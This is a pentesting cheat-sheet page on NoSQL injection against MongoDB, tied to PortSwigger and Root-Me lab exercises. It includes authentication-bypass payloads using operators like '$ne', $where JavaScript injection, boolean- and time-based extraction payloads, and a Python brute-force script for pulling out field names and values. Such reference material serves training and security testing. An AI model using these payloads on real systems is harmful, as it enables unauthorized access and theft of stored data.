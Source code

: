 # NoSQL Injection (NoSQLi)

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)

<div class="row row-cols-lg-2"><div>

According to a company or an application needs, a NoSQL database may be used instead of the traditional SQL database. This is often the case when using [GraphQL](/programming-languages/others/apis/graphql/index.md) API Model.

While NoSQL database such as MongoDB are inherently more resilient to common attacks, they may still be exploited.

* Test characters such as `'"};\r\n$Foo&|`
* Test coercing variables into arrays

If one is successful for NoSQL, there you may have an injection.
</div><div>

</div></div>

<hr class="sep-both">

## NoSQL Parameter injection ✍️

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)
[![nosql_injection_authentication](../../../../_badges/rootme/web_server/nosql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Authentication)

<div class="row row-cols-lg-2"><div>

The MongoDB PHP code to list all users matching a username is:

```php!
$result = $db_accounts->find(['username' => $username, 'password' => $password]);
```

If the type of `$password` is not verified, then we can try to coerce it into an array. If the input format is not JSON, try [HTTP parameter pollution](/cybersecurity/red-team/s2.discovery/techniques/websites/logic_flaws.md#http-parameter-pollution).

```php!
// Bypass the password check
// Common parameter pollution in PHP: ...&password[$ne]=&
$result = $db_accounts->find([
    'username' => 'admin', 
    'password' => ['$ne' => '']
]);
```
</div><div>

We can use multiple operators such as:

* `['$in' => ['a', 'b']]`: keep values in array
* `['$nin' => ['a', 'b']]`: do not keep values in array
* `['$regex' => 'adm']`: keep values matching a regex (`admin`, etc.)
* `['$where' => '...']`: refer to [NoSQLi Query Injection](#nosql-query-injection-)

Some systems such as MongoDB offer what we call a projection. It indirectly prevents us from accessing unselected parameters.

```php!
// ... But only returns the property 'username' 
$results = $db_accounts->find(..., ['projection' => ['username' => 1]]);
```
</div></div>

<hr class="sep-both">

## NoSQL Query injection 📚

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)
[![nosqli_detection](../../../../_badges/ps-lab/nosqli/nosqli_detection.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection)
[![nosqli_bypass_authentication](../../../../_badges/ps-lab/nosqli/nosqli_bypass_authentication.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)
[![nosqli_extract_data](../../../../_badges/ps-lab/nosqli/nosqli_extract_data.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)

<div class="row row-cols-lg-2"><div>

NoSQL Query Injection occurs when the developer either passed the whole user input to the MongoDB function -or- the developer used user-input in the `$where` clause without any security mechanisms.

```!
const user_input = {'username': 'admin'}
const results = await collection.find(user_input).toArray();
```

```js!
const user_input = 'admin'
const results = await collection.find({
    $where: `this.username == "${user_input}"`
}).toArray();
```

```php!
// It's not limited to JavaScript, but the syntax changes
$username = 'admin';
$results = $db_accounts->find([
    '$where' => "this['username'] == '$username'"
]);
```

When we control the whole first parameter, we can inject a `$where`:

```!
const user_input = {'username': 'admin', '$where': '...'}
```

Inside the `$where`, we can write arbitrary code in the language of the backend that will be evaluated. If errors are shown, use exceptions:

```js!
{ ..., '$where': 'throw JSON.stringify(this)' }
```
</div><div>

Otherwise, we can use a Boolean-Based or Time-Based approach <small>(if there are no changes in the response)</small> to extract characters one by one.

```js!
// Test '1' and '0' and look for changes in the output
// (often, 1 == results, 0 == no results)
{ ..., '$where': '1' }
// JavaScript (tested, there is a 'sleep' function) 
{ ..., '$where': '1 ? sleep(5000) : 0' }
```

In JavaScript, these payloads may be handy:

* `this.username == undefined ? 0 : 1` <small>(Test if an attribute exists)</small>
* `Object.keys(this)[n] == undefined ? 0 : 1` <small>(Test if there are `n` attributes. Note that each record can have a different number #NoSQL)</small>
* `Object.keys(this)[0] == '_id'` <small>(Test if attribute `0` is `_id`)</small>
* `Object.keys(this)[0].match(/^.{n}$/)` <small>(Test if the **length of the name** of the attribute at index `0` is `n`. For instance, `_id`'s length is 3)</small>
* `Object.keys(this)[0].match(/^_/)` <small>(Test if the **first character of the name** of the attribute at index `0` is `_`. For instance, for `_id`, it is True)</small>
* `this.username == value`, `this.username.match(/^.{n}$/)`, and `this.username.match(/^adm/)`  <small>(Test a value, the length, and brute force)</small>

**Warning ⚠️**: in some scenarios, a request returning one result is expected. In which case, some example here may not work "as if".

<details class="details-n">
<summary>JavaScript <code>$where</code> Data Extraction In Python</summary>

```py
import sys

def send_user_request(payload):
    # { $where: payload }
    return True
    
def nosql_brute_force_using_where(size_query, bruteforce_query):
    print("    Trying to use brute force (up to 100 chars)...")
    entity_length = 0
    for entity_length in range(1, 100):
        request_response = send_user_request(size_query.format(param_match="^.{" + str(entity_length) + "}$"))
        if request_response:
            print(f"    Payload length={entity_length}")
            break
    if entity_length == 0:
        print("Could not determine entity length, aborting...")
        sys.exit(1)

    param_name = ""
    param_value_range = (list("abcdefghijklmnopqrstuvwxyz") +
                         list("ABCDEFGHIJKLMNOPQRSTUVWXYZ") +
                         list("0123456789") + list(" !\"#$%&'()*+,-./:;<=>?@[]^_`{|}~"))
    param_value_range = param_value_range + [chr(i) for i in range(1, 255) if chr(i) not in param_value_range]
    for char_index in range(1, entity_length + 1):
        found = False
        for char_candidate in param_value_range:
            if char_candidate in ["*", ".", "?", "^", "$", "+"]:
                char_candidate = f"[{char_candidate}]"
            if char_candidate == "\\":
                continue
            request_response = send_user_request(bruteforce_query.format(param_match="^" + param_name +  char_candidate))
            if request_response:
                param_name += char_candidate
                found = True
                break

        if not found:
            print(f"Could not find the next character (last result: {param_name}).")
            sys.exit(2)

    return param_name

# Add them manually before restarting the script
known_columns = ['_id', 'username', 'password']
# Select column for which you want to extract the value
extract_columns = ['username']
# Payloads for introspection
test_payload = 'Object.keys(this)[{param_index}] != undefined'
match_payload = 'Object.keys(this)[{param_index}].match(/{{param_match}}/)'

param_index = 0
while True:
    check = send_user_request(test_payload.format(param_index=param_index))
    if not check:
        break
    print(f"[*] Found a new parameter at index {param_index}")

    param_name = None
    for known_column in known_columns:
        check = send_user_request(match_payload.format(param_index=param_index).format(param_match=known_column))
        if check:
            param_name = known_column
            break

    if not param_name:
        param_name = nosql_brute_force_using_where(
            match_payload.format(param_index=param_index),
            match_payload.format(param_index=param_index)
        )
        known_columns.append(param_name)

    print(f"[*] Found parameter name: {param_name}")

    if param_name in extract_columns:
        param_value = nosql_brute_force_using_where(
            f'this.{param_name}.match("{{param_match}}")',
            f'this.{param_name}.match("{{param_match}}")'
        )
        print(f"    Found parameter value= {param_value}")

    param_index += 1
```
</details>

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Test Null Byte (It's not working with recent versions)
</div><div>
</div></div>